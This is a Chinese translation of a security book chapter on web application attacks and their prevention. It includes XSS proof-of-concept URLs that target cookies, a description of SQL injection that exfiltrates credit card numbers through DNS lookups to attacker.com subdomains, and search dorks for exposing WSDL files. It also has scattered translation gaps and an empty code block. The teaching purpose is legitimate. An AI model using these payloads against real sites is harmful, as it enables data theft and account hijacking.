当用户向 Web 应用程序发送请求时，HTTP Header 和参数会被读取并由服务器上的 Web 应用程序用于执行请求的功能；然后将响应返回给客户端。如果这些 Header 和参数没有经过验证以确保它们与 Web 应用程序预期的一致，就可能会产生关键漏洞，例如 SQL 注入、XML 注入、跨站脚本（XSS）和 HTTP 响应分割。这些可能允许攻击者破坏数据库和应用程序、劫持会话并盗取身份凭据。

## SQL 注入

| 流行度: | 9 |

|---|---|

| 简单性: | 2 |

| 影响: | 10 |

| 风险评分: | 7 |

顾如此，这种漏洞涉及向 Web 应用程序向其后端数据库执行的查询中注入 SQL 语句。根据数据库类型和配置，这可能允许攻击者枚举整个数据库的所有内容，甚至获得在数据库服务器上运行系统级命令的能力，可能导致整个系统被破坏。SQL 注入漏洞有两种类型：普通注入和盲注。

普通 SQL 注入发生在攻击者能够强制 Web 应用程序泄露其向后端数据库执行的 SQL 语句（或语句的一部分）时。这通常通过强制 Web 应用程序产生一个泄露 SQL 信息的错误来实现，如图 13-4 所示。这些信息对攻击者非常有帮助，因为有助于他们为特定的 Web 应用程序和数据库创建 SQL 注入利用程序。普通 SQL 注入可能允许 SQL 注入的结果在 Web 响应中返回，可能允许数据库内容被转储或命令输出被返回。

普通 SQL 注入和盲注的区别在于，盲注不允许你直接转储数据库。盲注需要一种暴力破解的方法，攻击者注入一个 SQL 查询，该查询根据查询结果的真假指示数据库执行某些操作。例如，查询可以构造一个 SQL 请求，询问：“如果数据库用户名的第一个字符是 A，则等待十秒后再返回。”如果网页立即返回，则攻击者知道查询结果为假，然后她将需要提交第二个查询询问……如果网页运行了大约十秒才返回，那么攻击者就枚举了数据库用户名的第一个字母。攻击者可以重复此过程处理第二个字母、第三个字母，以此此类推，直到确定整个数据库用户名。同样的技术可以用于枚举数据库中的任何类型的信息。正如你想象的，这种技术并不隐蔽，因为仅仅确定数据库用户名可能就需要数千次请求，更不用说整个数据库表的内容了。

## SQL 注入续

目前开发出了一种更先进且高效得多的技术，可以利用普通或盲注 SQL 注入漏洞，并通过使用攻击者域名的 DNS 请求将查询结果隧道传输到组织外部，如图 13-5 所示。

假设攻击者正尝试枚举数据库中的所有信用卡。攻击者构建了一个复杂的 SQL 注入利用程序，用于导出数据库内容，并使用这些数据形成指向攻击者域名的 DNS 请求。在步骤 1 中，攻击者将查询注入到 Web 应用程序中，随后将 SQL 注入传回后端数据库，如步骤 2 所示。在步骤 3 中，导出信用卡详情。攻击者的查询获取每个信用卡号，并以 `creditcard1.attacker.com`、`creditcard2.attacker.com` 等格式发送一系列 DNS 请求。由于数据库服务器配置为使用机构的 DNS 服务器，因此 DNS 请求将通过公司 DNS 服务器在步骤 4 中发送出，并在步骤 5 中发送到攻击者的 DNS 服务器。攻击者的 DNS 服务器经过专门创建，用于剥离内容并显示被走带到子域名中的信用卡号。

这种 SQL 注入技术允许攻击者通过单个查询枚举数据库内容，且不取决于攻击者使用的是普通还是盲注 SQL 注入。这种技术更加隐蔽，只需要数据库服务器配置为指向一个有效的 DNS 服务器即可。



图 13-5 通过 DNS 请求隧道传输结果的 SQL 注入攻击

## XML 注入

| 流行度: | 4 |

| :--- | :--- |

| 简单性: | 2 |

| 影响: | 10 |

| 风险评分: | 5 |

XML 注入与 SQL 注入非常，因为使用未经验证的用户提供的输入查询 XML 数据的 Web 应用程序很容易受到后端查询的操纵。这可能导致系统或 Web 应用程序被利用，从而授权未经授权。

发现 XML 注入漏洞与发现 SQL 注入漏洞类似，例如注入单引号以强制 Web 应用程序报错。可以通过实施适当的数据验证技术来防止 XML 注入。有关 XML 攻击的更多信息可以参考本章节后面的“Web 服务枚举与操纵”。

## 跨站脚本 (XSS)

| 流行度: | 10 |

| :--- | :--- |

| 简单性: | 8 |

| 影响: | 9 |

| 风险评分: | 9 |

跨站脚本是当今 Web 应用程序中最关键且最常见的漏洞之一。跨站脚本可用于各种范围的攻击，从破坏网站或损害 Web 应用程序账户，到从网上银行账户转账，并在结合跨站请求伪造或 DNS 钉固定等其他漏洞时，甚至允许攻击者入侵你的内部网络。

## 反射型 XSS

当客户端提供的数据在未经 Web 应用程序适当验证的情况下回显给用户时，就会发生反射型 XSS。如果这些客户端提供的数据验证不足，攻击者可能向 Web 参数中注入 HTML 或 JavaScript 代码，导致 Web 应用程序将其回显给用户。这些注入的代码随后由用户的 解释并执行。

此漏洞可以用于，例如更改漏洞 Web 页面的外观，或将用户引导到恶意 JavaScript 代码，包括捕获会话标识符或对你的内部网络进行 JavaScript 端口扫描的能力。以下代码列表演示了攻击者如何向漏洞 Web 应用程序参数注入恶意 JavaScript，当回显给用户时将重写整个 Web 页面。此代码列表依赖浏览器支持 `document.clear()` 和 `document.write()` JavaScript 函数。同样，攻击者可以使用 JavaScript AttackAPI，该具有具有函数通过 XSS 实现一系列攻击，包括重写页面内容。

```
http://www.organization.com/?vulnparam=

```

这种攻击导致即使页面内容已被重写，机构 Web 应用程序的 URL 仍保留在浏览器的地址栏中。这允许攻击者利用用户与 URL 之间的关系，因为用户在浏览器地址栏中看到正确的域名。这可能会让某些用户对在恶意网页上输入他们的详细信息产生怀疑。

XSS-Proxy 是一个基于 Perl 的应用程序，允许攻击者通过 浏览器代理请求。如果 XSS-Proxy JavaScript 被注入到受害者访问的恶意网页中，这可能允许攻击者以受者的身份获得 Web 应用程序的代理身份访问，从而损害受者的账户。

通用跨站脚本 (UXSS) 是一种独特的 XSS 攻击，它利用了 PDF 文件的提供方式以及某些版本 Adobe Acrobat Reader 的漏洞。如果攻击者能够说服受害者请求带有恶意 PDF 锚点的 PDF 文件（如下代码所示），他们就可以利用 Acrobat Reader 插件 7.0.x 或更低版本的 UXSS 漏洞。

```
http://malicious-site.com/file.pdf#malicious-javascript:alert("xss");
```

## 存储型 XSS

存储型 XSS（或持久型 XSS）略有不同，客户端提供的数据不是回显到终端，而是存储在 Web 应用程序中，并在每次在 Web 页面中使用数据时发送给用户。这种功能在 Web 论坛发布消息时很常见，用户的消息存储在服务器上，并发送给每个打开消息的用户。如果消息包含的数据未经过 Web 应用程序适当验证，攻击者可能向消息中注入恶意 JavaScript 代码，每个查看消息的用户都会运行它。这种类型的攻击可以用来永久重写页面来击败网站（如“伪造 Web 应用程序”所述），或通过在用户每次访问页面时注入发送会话标识符的 JavaScript 来执行会话劫持。后者可能会损害查看漏洞页面的用户的账户。

图 13-6 演示了攻击者如何成功使用 XSS 向漏洞 Web 页面注入 HTML 标签。由于 Web 应用程序参数未充分验证，导致外部 Google 网站被插入到页面中间。


图 13-6 利用 XSS 将 Google 网站注入到漏洞页面

## DOM 型 XSS

DOM 代表文档对象模型，它是 Web 浏览器用于存储与当前 Web 会话相关信息的存储机制。DOM 型 XSS 利用了存储请求 URL 的 DOM 部分，例如 `documentURI`、`document.location` 和 `document.location.href`。如果 URL 中包含 XSS 利用程序，并且生成的页面检索并显示了任一 DOM 元素的内容，就会触发 XSS。更糟糕的是，该利用程序

# 攻防 Linux：Linux 安全秘密与解决方案

放置在哈希符号 (#) 之后的内容，哈希符号之后的所有实际上都不会发送到 Web 应用程序，如下所示：

```
http://www.example.com/#<script>alert(document.cookie);</script>
```

这意味着开发者无法在服务器端代码中防御此类 XSS 漏洞，而必须实际上依赖客户端验证（通常用 JavaScript 实现），对 DOM 数据进行编码和验证。

## HTTP 响应拆分 (HTTP Response Splitting)

| 流行度: | 2 |

|---|---|

| 简单性: | 6 |

| 影响范围: | 8 |

| 风险等级: | 5 |

HTTP 响应拆分由于客户端提供的数据在没有经过 Web 应用程序充分验证的情况下，被插入到 HTTP 响应头中，这可能导致代理或浏览器缓存被投毒。由于此类攻击通常涉及利用网络架构中的缺陷，该漏洞将在本章后的“Web 基础设施攻击”部分进行讨论。

## 防止数据验证不充分

大量的关键 Web 应用程序漏洞是由于对 Web 应用程序使用的不可信数据进行了不当的数据验证而导致的。这些不可信数据可能源于多种来源，例如终端用户、数据库内容或外部 Web 服务。开发者、管理员和 IT 人员必须确保在应用程序周期的每个阶段将此类安全控制集成到应用程序中。

## 系统开发生命周期 (SDLC)

安全性往往是事后考虑，或者被分配了可以忽略的时间、预算和资源来确保 Web 应用程序经过安全开发。遗憾的是，这导致许多 Web 应用程序带着我们在本章中探索的漏洞进入生产环境。

在设计或开发任何代码之前，需要检查系统开发生命周期 (SDLC)，以确保安全拥有足够的资源、为相关编程语言创建安全编码标准，并定义衡量应用程序安全性的指标。

Web 应用程序需求还需要包含安全需求，并且必须对这些需求进行审查以确保其没有歧义。这将保证在整个设计阶段和开发者都能理解这些需求。

## 第 13 章：Web 应用程序攻击

安全性必须是设计阶段的一部分，因为它包含了应用程序的安全架构将如何实现。如果在设计阶段没有考虑安全性，那么应用程序的所有部分最终都可能位于一台服务器上，而不是分散在多个服务器和安全层中。这在金钱和时间上对项目可能是极其昂贵的，因为需要对应用程序进行许多更改。

一旦完成设计，应创建威胁模型，以确定 Web 应用程序放入生产环境时面临哪些风险，并记录如何缓解或接受这些风险。

在开发阶段应进行代码审查，以让安全团队了解开发者是如何实现设计的，以及是否遵循了安全编码标准。这同时也允许安全团队确定他们的安全编码标准是否在某些领域是否存在缺失。

在实施阶段也必须执行安全流程。这包括配置审查，以确保 Web 架构中的所有系统都经过安全配置，以及应用程序和基础设施渗透测试，以发现应用程序部署后实际存在哪些漏洞。

安全性是一项令人沮丧的工作，因为每天都会发现新的漏洞和攻击，因此，系统和应用程序的维护对于维持所需的安全水平以及确保风险对业务是可接受的至关重要。

## 数据验证

Web 应用程序中缺乏输入和输出数据的验证是 Web 应用程序包含的最常见且最关键的缺陷之一。发送到 Web 应用程序的所有数据都必须检查有效性。示例包括输入字段、隐藏字段、cookie、请求头、响应头、上传文件和 XML 内容。

在 Web 应用程序中验证数据的最佳方法是仅允许“已知的良好值”。这可能意味着允许值 1、5、10、50 和 65，然后拒绝任何其他值。如果未知良好的良好值（例如在描述性文本中），则应只允许“已知的良好字符”。这可能意味着对字段值与正则表达式（如 `[a-zA-Z]`）进行检查，以确保字符是有效的。这可以在 PHP 中使用 `preg_match` 函数实现。

如果由于某些原因未知良好字符，则应该检查数据是否存在已知的坏字符和坏值，例如符号，甚至通过范围来确保输入不是二进制数据。

验证输入的最后手段是通过剥离坏字符或对字符进行编码来对输入进行清理，以确保它们不会被恶意使用。这意味着在坏字符或值被清理或剥离后，Web 应用程序将接受该数据；然而，如果攻击者利用清理函数绕过其他验证步骤，这可能会让 Web 应用程序处于脆弱状态。一个示例是移除单词 "JavaScript" 的 Web 应用程序。如果攻击者发送数据 `JavaScriptScript`，Web 应用程序将删除中间的 `JavaScript` 部分，留下清理后的值为 `JavaScript`。因此，攻击者绕过了验证步骤。

如果这些验证步骤没有正确实现，攻击者可能可以使用不大小敏感字符、HTML 实体、URL 编码、Unicode 编码、长 Unicode 编码、十六进制编码、在单词中嵌入制表符、换行符或回车、注入空字符、二进制字符以及删除分号来绕过这些检查。

还应该检查数据的长度以确保其符合 Web 应用程序的预期。这对于恶意脚本或利用尝试设置了大小限制，限制了可能进行的攻击。长度检查还可能让日志刷新和拒绝服务攻击（例如填充根目录或 var 文件系统）变得困难得多。可以使用 ModSecurity 作为第二层安全，来限制参数或请求的大小，以丢弃大型请求。

## 客户端验证

数据验证绝不能在客户端执行，这意味着安全不应实现在 JavaScript、Flash 或 Applet 中。

JavaScript 可以被操纵以改变其功能甚至被关闭。一个常见的假设是用户实际上在使用网络浏览器查看页面，而攻击者实际上可能在使用不解析 JavaScript 的命令行工具。

Applet 通常可以被反编译以显示底层源代码，允许攻击者确定任何正在进行的客户端输入验证。这些弱的安全措施始终可以通过使用本地代理捕获并更改请求，或者使用 JavaScript 调试器在运行时操纵客户端安全来绕过。

## 第 13 章：Web 应用攻击

入侵。同样，连接到数据库的用户也应该具有最小权限，以便将数据库内数据的风险降至最低。

不应向最终用户提供数据库错误消息，以尽量减少与数据库及其内容相关的信息泄露。在任何显示自定义错误消息的地方，都应该调查错误原因，以确保应用程序中不存在绑定 SQL 注入漏洞。与数据验证类似，对用户输入使用列表式验证以确保不存在 SQL 注入漏洞。与其对元字符进行转义或清理，请求输入是最安全的。

可以使用预语句（Prepared statements）将编译后的 SQL 语句发送到后端数据库，以及用户提供的各种参数。数据库不会解释预语句中参数的值，使应用程序免受 SQL 注入漏洞的影响。


存储过程是 SQL 注入的一种类似解决方案，因为攻击字符串仅被视为函数内部的文本参数。这使得 Web 完全无法进行直接的 SQL 查询。然而，开发者会创建动态 SQL 查询并通过存储过程执行它们。这会绕过存储过程的安全控制，并允许攻击者再次执行 SQL 注入。

不必要的功能（如无关或不安全的存储过程）会增加攻击者的风险，应该将其禁用或删除。这将确保攻击者无法执行系统设计期间未预留的操作。

为了进行简单的健全检查，可以使用经过验证的数据库安全扫描程序对数据库进行扫描，以确保系统上线前不存在任何不安全的默认配置。

## WEB 2.0 攻击

Web 2.0 最困难的事情之一就是试图对其真实含义的直接答案。从高层次来说，Web 2.0 基本上是互联网在复杂性和功能方面的发展方向和成就的概念——这通常增加了架构和应用程序设计不良的可能性。Web 2.0 引入了利用 Flash 和 AJAX 等技术的互联网应用程序（RIA），允许应用程序与终端用户交互，让他们参与甚至生成实际 Web 应用的内容。示例包括 Google Maps、Flickr、YouTube、Facebook、Blogger 和 Wikipedia。Web 2.0 通常利用面向服务的架构（SOA），该架构允许扩展软件服务，如 Web 馈（RSS 和 Atom）和 Web 服务（XML, SOAP, SAML 和 WSS），将其组合成临时应用程序。

## Web 服务枚举与操纵

| 流行度 | 3 |
| :--- | :--- |
| 简单性 | 4 |
| 影响 | 8 |
| 风险评分 | 5 |

在 Web 服务的早期实现中，组织会将 Web 服务注册到通用业务注册表（UBR），以便第三方可以搜索通用描述、发现和集成（UDDI）主数据库，以获取公开的电子商务 Web 服务。攻击者也可以搜索这些公共数据库来发现 Web 服务，并通过 Web 服务定义文件（WSDL）获取访问它们所需的所有信息。

现代 Web 服务架构已逐渐背离这种公共系统，因为现在大多数 Web 服务仅供组织内部或信任的业务伙伴私用。2006 年 1 月，IBM、微软和 SAP 宣布将关闭它们的公共 UDDI 数据库，这标志着这种原始架构的结束。

获取 WSDL 文件是黑入 Web 服务的第一步。此 XML 格式的文档定义了与 Web 服务交互的方法、所需的参数和类型，以及服务的位置。从这里开始，攻击者知道了在哪里以及如何使用该 Web 服务，因此可以开始执行本章描述的所有攻击。

那么，在公共 UBR 不再可用的情况下，现在如何找到目标组织的 WSDL 文件呢？可以通过扩展名为 `.wsdl` 的文件或通过 Web 程序的参数访问 WSDL 文件，如下所示：

```
http://webservices.example.com/MyWebService.wsdl
http://webservices.example.com/webservice.php?wsdl
```

如果你足够幸运，为组织找到此文件最简单的方法是使用搜索引擎的高级选项。在 Google 中，你可以使用以下搜索词之一。示例见图 13-7。

```
site:example.com filetype:wsdl
site:example.com inurl:wsdl
```

这要求组织要么已为公共 Web 服务提供了 WSDL 文件，要么由于缺乏访问控制列表（ACL）而不小心泄露到互联网，导致搜索引擎和攻击者可以找到它。你也可以通过爬取组织的 Web 应用来确定是否存在指向 WSDL 文件的链接，或者通过暴力破解常见的 WSDL 相关的文件名和目录，或者在每个 Web 程序的末尾附加 `?wsdl` 参数来寻找。

### 第 13 章：Web 应用攻击



图 13-7 使用 enumerate 为微软生成 WSDL 文件

13-18 展示了一个 WSDL 文件，它提供了在示例 Web 服务中搜索多个名称的功能。在黑入 Web 服务时，理解 WSDL 文件的关键部分至关重要。`types` 部分定义了可用方法的格式，包括相应的参数和类型。`SearchRequest` 需要两个元素，类型分别为 String 和 Integer 的 Name 和 Count。`message` 部分定义了方法名称和类型……（此处省略重复的 message 描述，直到）……以及服务所在的位置。

由于接收服务器处理和解析 XML 请求消耗的资源比从客户端发送请求要多，攻击者可以通过发送极大的 XML 请求导致拒绝服务（DoS）攻击。另一种被称为实体扩展攻击（entity expansion attack）的攻击可以通过定义某些递归来导致 DoS。

[第 433 页]

## 398 Linux：安全解决方案

```
<xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://www.w3.org/2001/XMLSchema" xmlns:encoding="http://schemas.xmlsoap.org/soap/encoding/" xmlns:envelope="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header/>
  <soap:Body>
    <searchRequest>
      <Name>John</Name>
      <Count>4</Count>
    </searchRequest>
  </soap:Body>
</soap:Envelope>
```

图 13-8 姓名搜索 Web 服务示例 XML 文件

注入、默认错误、跨站请求伪造、不安全的 Cookie、不安全的 SSL 版本和加密算法，还引入了许多通用 Web 应用中不存在的新攻击。这些攻击由于在 Web 应用或服务内部使用了 XML 而出现。

一旦你成功向 Web 服务发送了请求，就可以测试我们在本章中讨论的安全性。

以下是

```xml
<xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://www.w3.org/2001/XMLSchema" xmlns:encoding="http://schemas.xmlsoap.org/soap/encoding/" xmlns:envelope="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header/>
  <soap:Body>
    <searchRequest>
      <Name>John</Name>
      <Count>4</Count>
    </searchRequest>
  </soap:Body>
</soap:Envelope>
```

图 13-9 向姓名搜索 Web 服务发送请求的 POST 数据

## 13 章：Web 应用攻击

指向自身的实体声明会导致服务器陷入无限扩展定义实体的循环，从而导致系统资源被耗尽。

通过声明一个指向本地文件的实体，服务器可能会尝试扩展该实体，从而允许攻击者探测服务器上存在的文件，可能通过 XML 格式的错误消息将文件名或文件内容返回给用户。

## 防止 Web 服务枚举与操纵

开发者通常不会在 Web 服务代码中实现安全防护，因为他们假设 Web 服务是由另一台计算机访问的，而不是 Web 浏览器中的终端用户。这使得 Web 服务容易受到攻击，可能导致应用程序及其数据的机密性、完整性和可用性受到破坏。由于 Web 服务具有与多个系统以及跨多个组织交互的特性，还需要额外的安全控制措施以确保 Web 服务不会被操纵。

## 机密性

Web 应用通常会实现 SSL 和 TLS 以确保终端用户与 Web 服务器之间的通信是加密的，并确保通信在传输过程中不被篡改。遗憾的是，这种解决方案对于 Web 服务来说是不够的，因为终端用户与初始 Web 服务器之间的通信是加密的；然而，初始 Web 服务器之外任何额外的 Web 服务都可能未加密，导致 XML 数据暴露给它们。这导致 Web 服务的机密性受到破坏。

因此，Web 服务需要使用如 XML 加密 (`http://www.w3.org/Encryption/`)、`XML` 密钥管理 (`http://www.w3.org/2001/KMS5/`) 和 WS-Security (`http://www.oasis-open.org/committees/wss`) 等标准对消息进行加密。这种协议类似于使用 PGP 加密电子邮件并使用 SMTP 等未加密协议发送电子邮件。未加密的通信可能会被捕获，暴露该消息是一封电子邮件；但电子邮件的实际内容是加密的，保护了数据的机密性。这些加密数据仍可能被修改，这增加了完整性检查的要求。

## 完整性

通用应用程序传输到终端用户的数据完整性通常通过字段值的摘要来实现。例如，可以在向终端用户发送 HTML 页面时发送一个隐藏字段。为了确保该字段值不被更改，你捕获一个摘要值，并在数据传回 Web 应用时进行检查。SSL/TLS 也是一种完整性机制，用于确保 Web 应用的数据在传输过程中不被操纵；但正如在机密性建议中所述，SSL/TLS 不是 Web 服务的充分安全控制。

XML 数字签名 (`http://www.w3.org/Signature/`)、OASIS 数字签名服务 (`DSS`) (`http://www.oasis-open.org/committees/dss/`) 以及 WS-Security 实现了数字签名和对 SOAP 的安全增强，这些可以用于确保 Web 服务内部的数据完整性。

## 身份验证与授权

Web 服务提供的与 Web 应用常用的身份验证类型相同，例如用户名、密码、硬件和软件令牌以及数字证书；然而，在 Web 服务内部可以实现的身份验证类型很大程度上取决于 Web 服务如何被访问、由谁访问以及系统的架构设计。由于 Web 服务经常被其他 Web 服务或其他应用程序访问，由于需要为每次身份验证请求手动输入不同的密码，类似于令牌的身份验证机制通常是不可行的。

Web 服务经常在多个 Web 服务之间实现单点登录 (`SSO`)，以无缝扩展其应用程序的功能。这可以通过安全断言标记语言 (`SAML`) (`http://www.oasis-open.org/committees/security/`) 实现，允许 Web 服务对另一个 Web 服务（无论是另一个 Web 服务还是人类）就用户的身份验证和授权做出断言。

在成功身份验证后，需要实现授权，以确保 Web 服务的用户仅具有访问授权的功能和数据的权限。可以通过 XML 访问控制标记语言 (`XACML`) 标准 (`http://www.oasis-open.org/committees/xacml/`) 通过 Web 服务实现。

## 通用安全问题

尽管 Web 服务有其独特的设置，但它们本质上仍然是 Web 应用，因此需要本章讨论的所有安全控制措施来确保其安全。

输入和输出验证在 Web 服务中仍然是一个主要问题，这会引发跨站脚本攻击和注入攻击等漏洞。默认错误和堆栈跟踪通常由于 Web 服务器配置错误而处于开启，允许攻击者枚举敏感信息。同样，默认文件和目录通常也会被开放，可能为攻击提供其他途径。这些需要通过紧凑的访问控制列表 (`ACL`) 进行移除或限制。当 Web 服务仍是攻击目标时，不要忽略对非标准请求的适当日志记录、监控和告报。设置安全的 SSL 和 TLS 版本以确保加密通信不会被操纵。

Web 服务还可以实施额外的安全控制。不在你的 Web 应用中嵌入指向私有 Web 服务或 WSDL 文件的链接，是保护 Web 服务公众可见性的一步。在受信任的合作伙伴之间发布 WSDL 文件是阻止攻击者从 Web 服务枚举 WSDL 文件的另一步，从而让攻击者无法获取访问和攻击 Web 服务所需的必要信息。

## 13 章：Web 应用攻击

之前讨论过的 Web 服务引入的某些漏洞包括消耗 Web 服务器资源的 拒绝服务 (`DoS`) 攻击。你可以使用看门狗线程 (`watchdog threads`) 来监控并终止执行时间过长或占用资源过多的进程。

实现 Web 服务的另一个考虑因素是获取组织所需安全水平的架构。如今，Web 服务通常设计用于信任双方之间的私有使用，这可能需要部署一个外网网络以确保私有通信得到保障。

![9017c183bb0ada4d89dbc2020125f8f5_436_0.png]

## AJAX 攻击

| 指标 | 评分 |
| :--- | :--- |
| 流行 | 7 |
| 简单 | 4 |
| 影响 | 9 |
| || | 7 |

异步 JavaScript 和 XML (`AJAX`) 基本上加强版的 JavaScript。它在 Web 2.0 应用程序中起着重要作用，由于其能够在无需刷新页面的情况下发起异步请求，使得用户交互更加流畅和顺畅。这是通过使用 XMLHttpRequest (`XHR`) 对象实现的。基于 JavaScript，AJAX 运行在用户的浏览器客户端，这导致开发者需要将安全集成到这些客户端脚本中。这几乎意味着控制会被绕过。

AJAX 增加了 Web 应用开发和测试的复杂性。由于其异步特性，单页概念在 Web 2.0 中已不再存在，因为可能会运行许多 Web 请求来更新并生成不断变化的页面内容。这意味着传统的爬取 Web 应用以枚举页面和访问点（或参数）的方法不再有效。测试人员需要记住，最初创建的页面后期可能由完全不同的内容、参数和链接组成。这极大强调了“状态”，状态通常可以通过肉眼来区分，而不是自动化 Web 扫描器。Web 应用测试工具没有考虑到这一点，导致测试不完整。

许多 Firefox 插件已经开发出来，允许分析和操作浏览器内的所有内容，使 Firefox 成为 Web 应用测试工具。这些插件包括 Firebug、JavaScript Debugger（也称为 Venkam）、Tamper Data、Live HTTP Headers、Chickenfoot、Web Developer Toolbar 和 Hackbar。

Firebug 有一个可以在浏览网页时显示 XMLHttpRequests 的选项，允许你枚举 XHR 调用，如图 13–10 所示。

## 402 攻防 Linux 实：安全秘密与解决方案



> 图 13-1 Firebug 揭示了 Web 2.0应用程序中的 XML 请求。

一旦枚举了 XHR，测试人员就可以查看 AJAX 任务中的 HTTP 请求、HTTP 响应以及参数。这可能会揭示出你无法通过传统的 Web 应用测试技术找到的请求和参数。Chickenfoot 是一个脚本插件，允许客户端操作（如 OnClick 事件）自动化，以便快速发现 AJAX 调用。

测试人员可能足够幸运，能够揭示在请求周围执行的客户端输入验证程序，这可能表明安全措施是在 Web 浏览器中实现的，而不是服务器端代码中。可以使用 JavaScript 调试器（如 Firemonkey 或 Firebug）来枚举和浏览所有 JavaScript 程序的，以便在运行时操控变量和函数，因为它提供了单步执行选项，能够对 Web 应用程序逻辑流进行更细粒度的控制。图 13-10 展示了对 `typeahead_friends.php` 程序的枚举。通过 Firemonkey，测试人员可以搜索诸如 `typeahead` 等关键字，以确定可能的调用来源，从而使测试人员能够在 JavaScript 函数内部设置断点，以便进行更详细的分析，如图 13-11 所示。

Firebug 拥有许多强大的工具，例如检查（Inspect）功能，它允许测试人员简化鼠标悬停当前显示 Web 页面的任何事件（无论大小），以显示相应的 HTML 代码、页面布局、样式细节、限制、JavaScript 函数和事件，并提供了浏览 DOM 结构的能力，如图 13-12 所示。编辑（Edit）选项允许测试人员轻松修改底层代码以操控应用程序。

## 第 13 章：Web 应用攻击



图 13-11 使用 Firemonkey 用于枚举、捕获、分析和操控 JavaScript



图 13-12 Firebug 检查功能允许对底层代码进行轻松分析。

## 防止 AJAX 攻击：数据验证

